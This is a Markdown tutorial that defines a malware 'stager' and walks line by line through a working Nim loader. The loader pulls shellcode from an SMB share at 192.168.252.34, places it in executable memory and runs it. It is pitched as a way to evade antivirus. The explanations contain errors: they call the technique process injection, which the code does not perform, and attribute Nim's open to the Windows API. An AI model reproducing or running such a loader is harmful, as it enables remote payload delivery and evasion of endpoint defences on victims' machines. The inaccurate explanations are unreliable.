 


### What is a stager ?

A stager is like the first step in a two-step attack. It's a small piece of code that is sent or delivered to a target system initially. The main job of the stager is to set up a connection to a server controlled by the attacker. Once the connection is established, the stager's role is to fetch and execute a larger, more powerful piece of malicious code (payload) from the attacker's server.


### A basic stager in nim that executes our shell code by making use of process injection, allowing AV evasion.


```python
import winim/lean 

  

var filename = "\\\\192.168.252.34\\smb\\code.bin"

  

var file: File = open(filename, fmRead) 

  

var filesize = file.getFileSize()

  

var shellcode = newSeq[byte](filesize) 

  

discard file.readBytes(shellcode, 0, filesize) 

  

type

	buf* = LPVOID

  

var res = VirtualAlloc(nil, filesize, MEM_COMMIT, PAGE_EXECUTE_READWRITE)

copyMem(res, shellcode[0].addr, filesize)

let f = cast[proc(){.nimcall.}](res)

f()
```



Let's look more closely at what each line of the code does:

```python
import winim/lean  # Library for interacting with the Windows API
```

This line imports the `winim/lean` module, which provides Nim bindings for the Windows API. It allows the Nim program to interact with Windows-specific functions.

```bash
var filename = "\\\\192.168.252.34\\smb\\code.bin"  # Location of the shellcode`
```

Here, a variable named `filename` is assigned the path of a file containing shellcode. The file is expected to be located at the specified network path.

```python
var file: File = open(filename, fmRead)  # Opening the file in read mode
```

This line opens the file specified by `filename` in read mode (`fmRead`). It uses the `open` function from the Windows API to create a `File` object.

```python
var filesize = file.getFileSize()  # Getting the filesize
```

The program retrieves the size of the opened file using the `getFileSize` method of the `file` object. This information is crucial for allocating the appropriate amount of memory.

```python
var shellcode = newSeq[byte](filesize) 
```

A Nim sequence (`newSeq`) named `shellcode` is created with a size equal to the previously obtained `filesize`. This sequence will be used to store the contents of the shellcode.

```python
discard file.readBytes(shellcode, 0, filesize)  #
```

The program reads the contents of the file into the `shellcode` sequence using the `readBytes` method of the `file` object. The `discard` keyword is used to suppress any unused result warning. The `filesize` specifies the amounts of bytes to be read into `shellcode` which is equal to the size of the `shellcode binary`.  

```python
type
  buf* = LPVOID
```

A type alias `buf` is defined, representing a buffer that will be used for memory allocation.

```python
var res = VirtualAlloc(nil, filesize, MEM_COMMIT, PAGE_EXECUTE_READWRITE)
```

The `VirtualAlloc` function is called to allocate a region of memory (`res`) that is large enough to accommodate the shellcode. The `MEM_COMMIT` flag indicates that the memory should be committed (reserved), and `PAGE_EXECUTE_READWRITE` specifies that the memory should be both executable and writable.

```python
copyMem(res, shellcode[0].addr, filesize)
```

This line of code is using the `CopyMem` function for copying `filesize` bytes of memory from the address pointed to by `shellcode[0].addr` to the memory location pointed to by `res`. The `shellcode` is the byte sequence that we had created earlier.

- `shellcode[0].addr`: It is the source memory location,  `[0]` specifies the address of the first element of the `shellcode` sequence. In short, this line is telling the program to start copying the bytes  from the very first element of the `shellcode` byte sequence.

```python
let f = cast[proc(){.nimcall.}](res)
```

A function pointer (`f`) is created by casting the allocated memory as a function pointer. The `{.nimcall.}` pragma indicates that the calling convention for the function should be Nim's default.

1. **`casting:`**
    
    - `cast`: In Nim, the `cast` keyword is used for explicit type conversion or casting. It allows you to convert a value from one type to another.
2. **`[proc(){.nimcall.}]`**:
    
    - This part specifies the target type to which we are casting. In this case, it's a procedure type with an empty parameter list `{}`. The `.{nimcall.}` annotation is used to indicate that the calling convention should follow Nim conventions.
3. **`(res)`**:
    
    - This is the value being cast. In this case, it's the result of the `VirtualAlloc` function, which is a pointer to the allocated memory.
4. **`let f = cast[proc(){.nimcall.}](res)`**:
    
    - The entire line performs the casting operation. It casts the pointer `res` to a Nim procedure type with the specified calling convention.
    - The purpose of casting `res` into a procedure type is to treat the allocated memory (`res`) as if it contains executable code in the form of a Nim procedure and execute it.

```python
f()
```

Finally, the function pointer `f` is dereferenced and called, effectively executing the shellcode.


